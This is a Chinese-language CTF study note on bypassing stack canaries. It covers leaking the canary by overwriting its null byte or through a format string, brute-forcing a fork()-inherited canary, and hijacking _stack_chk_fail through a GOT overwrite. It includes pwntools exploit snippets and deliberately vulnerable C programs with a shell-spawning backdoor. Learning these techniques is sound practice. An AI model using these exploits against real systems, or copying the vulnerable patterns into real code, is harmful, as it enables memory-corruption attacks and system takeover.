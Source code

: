 # 总结1（Canary）

by Maple

写了这么久的题了，但是看到题还是一头雾水，完全在瞎碰，写个小总结，系统整理整理吧

**从保护开始**

Canary就是在栈底放一个随机数，如果缓冲区变量溢出，那么这个随机数也会被篡改，当函数结束的时候会对这个随机数检查，如果发现这个随机数变了，就会执行`_stack_chk_fail`函数终止程序

从汇编角度看：函数序言会向保存调用函数的栈底指针，然后设置被调用函数自身的栈底指针，最后分配栈空间，这3条汇编指令标志着一个经典的函数序言

>  比如`buuctf`中的`bjdctf_2020_babyrop2`，有开启Canary保护，就存在这样的代码
>
> ```assembly
> mov     rbp, rsp
> sub     rsp, 20h
> mov     rax, fs:28h
> ```

但是Canary的非即时检测就留下了一定的操作空间：

只要可以让Canary在函数未结束前泄露出来，构造payload时在它本应在的位置写上Canary就可以了

所以问题就变为了如何泄露出来Canary，了解一下Canary随机值的特点

（或者修改指向`_stack_chk_fail`的地址，让函数走向后门函数）

- 一般Canary会在`ebp-0x8`处存储，

- 其最低位设置为`\x00`

  >  这里本意时为了保证字符串可以被`\x00`截断，从而保护其它字节信息

## 绕过思路

### 覆盖截断获取随机值

先填充缓冲区变量到Canary的最低字节，然后获取泄露的Canary，最后根据Canary的值填充`rbp-0x8`的位置，此后调用函数栈指针可以随意覆盖

假设有一个题目这样布局

```c
  char buf[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]
```

可以这样覆盖并泄露

```python
off_set = b'A'*(0x20-0x8)
p.sendline(off_set)
result = p.recvuntil(b'a'*(0x20-0x8)+b'\n')
canary = u64(b'\x00'+p.recv(7))
```

### 格式化字符串直接泄露

格式化字符串可以完成任意位置读写操作，所以泄露Canary值也是很轻松的

以上面的例子来看

假设测试得到我们输入的内容在栈中第6个位置，并且栈顶到Canary的距离为`0x18(0x20-0x8)`

而一个不带长度的格式化字符会输出8/4个字节大小的数据，`0x18/0x8=3`,所以应该在第`6+3=9`位置处

payload如下：

```python
payload = b'%9$x'
p.sendline(payload)
canary = int(p.recvuntil('\n')[:-1],16)
```

### 逐字节爆破绕过Canary

> 适用于有通过`fork()`函数创建的子进程的程序

某些题目中存在`fork()`函数，且程序开启了Canary函数，当程序进入到子进程的时候，**其Canary的值和父进程中Canary的值一样**（因为fork函数为拷贝父进程的内存），一次你在一定体哦阿健下我们可以将Canary爆破出来

需要的条件有：

- 程序中存在栈溢出的漏洞
- 可以覆盖到Canary的位置

> 对于32位程序，只需要对3字节进行爆破，爆破方式是先利用栈溢出复写次低字节，如果出错的化会报错并且重启子进程，获得正确的次低节点就不会报错，获取正确此地节点之后依次爆破次高字节和高字节

例程：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>  
#include <sys/wait.h>
 
void getshell(void)
{
    system("/bin/sh");
}
 
void init(void)
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}
 
void vuln(void)
{
    char buf[100];
    memset(buf, 0, sizeof(buf));
    read(0, buf, 0x200);
    printf("%s\n", buf);
}
int main(void)
{
    init();
    while (1)
    {
        printf("Hello Hacker!\n");
        if (fork()) //father
        {
            wait(NULL);
        }
        else //child
        {
            vuln();
            exit(0);
        }
    }
 
    return 0;
}
```

`gcc pwn.c -no-pie -m32 -fstack-protector -z noexecstack -o pwn`编译

payload构造

```python
canary = b'\x00'
for i in range(3):
    for j in range(0,256):
        payload = b'a'*(0x70-0xC)+canary+p8(j)
        p.send(payload)
        # time.sleep(0.1)
        res = p.recv()
        if (b'stack smashing detected' not in res):
            print(f'the {i} is {hex(j)}')
            canary +=p8(j)
            break
    assert(len(canary) == i+2)
log.info('Canary；'+hex(u32((canary))))
```

### SSP泄露Canary

> 使用与Flag存储于内存空间中的情况

SSP全称为`Stack Smashing Protect`，这种方法可以读取内存中的值，当flag在内存中储存时，就可以用这个方法读取flag

直接看[这篇文章](https://www.anquanke.com/post/id/177832#h2-3)叭

### 劫持`_stack_chk_fail`函数

如果Canary不对，程序会转到`stack_chk_fail`函数执行，而这个函数是一个普通的延迟绑定函数，可以通过修改GOT表来劫持这个函数

例程：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
void getshell(void)
{
    system("/bin/sh");
}
int main(int argc, char *argv[])
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
 
    char buf[100];
    read(0, buf, 200);#栈溢出
    printf(buf);
    return 0;
}
```

` gcc pwn.c -m32 -fstack-protector -no-pie -z noexecstack -z norelro -o pwn`编译

> - 劫持函数要修改GOT表，所以关闭RELRO
> - 调用`getshell`函数，关闭pie

我们直到GOT表中存的是函数的实际地址，如果把`_stack_chk_fail`函数的got表地址替换为`getshell`的地址，在canary出错的情况下，调用`_stack_chk_fail`时就会直接获取到shell

直接用`fmtstr_payload`就行

```python
_stack_chk_fail_got = elf.got['_stack_chk_fail']
backdoor = elf.sym['getshell']
payload = fmtstr_payload(10,{stack_chk_fail_got:backdoor})
payload = payload.ljust(0x70,b'a')
p.send(payload)
```

